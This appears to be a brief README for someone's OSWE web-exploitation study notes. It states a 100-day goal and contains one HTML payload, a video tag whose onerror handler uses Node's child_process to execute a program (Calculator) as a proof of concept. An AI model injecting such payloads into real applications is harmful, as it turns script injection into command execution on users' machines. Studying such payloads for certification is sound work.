 # OSWE_WEB_300
All Notes related to oswe

Working towards goal of oswe in 100 Days.

<video><source onerror"alert(require('child_process').execSync('/System/Applications/Calculator.app/Contents/MacOS/Calculator').toString());">
